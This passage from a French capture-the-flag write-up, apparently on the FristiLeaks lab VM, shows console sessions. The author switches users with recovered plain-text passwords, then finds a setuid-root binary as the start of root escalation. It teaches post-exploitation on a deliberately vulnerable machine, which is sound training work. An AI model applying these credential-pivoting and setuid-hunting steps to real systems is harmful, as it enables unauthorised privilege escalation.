 Nous voici donc en possession de deux nouveaux _credentials_ : admin/thisisalsopw123 et fristigod/LetThereBeFristi.

```console
bash-4.1$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-4.1$ su - admin
su - admin
Password: thisisalsopw123

[admin@localhost ~]$ su - fristigod
su - fristigod
Password: LetThereBeFristi!

-bash-4.1$ id
id
uid=502(fristigod) gid=502(fristigod) groups=502(fristigod)
```

## Élévation de privilèges (root)

Partons à la recherche de fichiers intéressants... le répertoire _.secret_admin_stuff_ semble être une bonne piste.

```console
-bash-4.1$ ls -al
ls -al
total 16
drwxr-x---   3 fristigod fristigod 4096 Nov 25  2015 .
drwxr-xr-x. 19 root      root      4096 Nov 19  2015 ..
-rw-------   1 fristigod fristigod  864 Nov 25  2015 .bash_history
drwxrwxr-x.  2 fristigod fristigod 4096 Nov 25  2015 .secret_admin_stuff

-bash-4.1$ cd .secret_admin_stuff
cd .secret_admin_stuff

-bash-4.1$ ls -al
ls -al
total 16
drwxrwxr-x. 2 fristigod fristigod 4096 Nov 25  2015 .
drwxr-x---  3 fristigod fristigod 4096 Nov 25  2015 ..
-rwsr-sr-x  1 root      root      7529 Nov 25  2015 doCom

-bash-4.1$ file doCom
file doCom
doCom: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
```

_Nota Bene : quand un fichier exécutable est propriété de l'utilisateur root, et est rendu setuid, tout processus exécutant ce fichier peut effectuer ses tâches avec les permissions associées à root, ce qui constitue un risque de sécurité pour la machine, s'il existe une faille dans ce programme. En effet, un hacker pourrait utiliser cette faille pour effectuer des opérations réservées à root, par exemple en se créant un compte d'accès illimité en temps et en pouvoirs. Source : Article [Setuid](https://fr.wikipedia.org/wiki/Setuid) de
[Wikipédia en français](https://fr.wikipedia.org/) ([auteurs](https://fr.wikipedia.org/w/index.php?title=Setuid&action=history))._
